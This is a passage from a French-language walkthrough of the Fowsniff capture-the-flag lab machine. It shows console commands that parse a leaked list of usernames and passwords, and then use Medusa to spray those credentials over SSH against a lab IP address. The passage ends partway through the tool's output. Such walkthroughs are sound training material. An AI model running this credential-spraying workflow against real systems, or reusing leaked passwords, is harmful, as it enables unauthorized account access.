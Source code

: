 ```console

root@blinils:~# mv leak-pastebin.tmp leak-pastebin.john

root@blinils:~# cat leak-pastebin.john
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972

root@blinils:~# # puis on sépare les users des mots de passe
root@blinils:~# cut -f1 -d@ leak-pastebin.john > fowsniff.users
root@blinils:~# cut -f2 -d: leak-pastebin.john > fowsniff.passwords

root@blinils:~# # ou alors on place chaque couple user/password sur la même ligne
root@blinils:~# sed -e "s/@fowsniff:/ /g" < leak-pastebin.john
mauer mailcall
mustikka bilbo101
tegel apples01
baksteen skyler22
seina scoobydoo2
mursten carp4ever
parede orlando12
sciana 07011972

root@blinils:~# sed -e "s/@fowsniff:/ /g" < leak-pastebin.john > fowsniff.credentials
```

## Cassage de mots de passe avec Medusa

Plutôt que de tester toutes les combinaisons à la main, l'outil [__Medusa__](http://foofus.net/goons/jmk/medusa/medusa.html) arrive à la rescousse ! Soit soixante-quatre combinaisons possibles à tester... c'est vrai, après tout, pourquoi les employés ne partageraient-ils pas leurs mots de passe entre eux ?

```console
root@blinils:~# medusa -h 192.168.56.101 -U fowsniff.users -P fowsniff.passwords -M ssh
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: mailcall (1 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: bilbo101 (2 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: apples01 (3 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: skyler22 (4 of 8 complete)
--snip--
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: skyler22 (4 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: scoobydoo2 (5 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: carp4ever (6 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: orlando12 (7 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: 07011972 (8 of 8 complete)
```
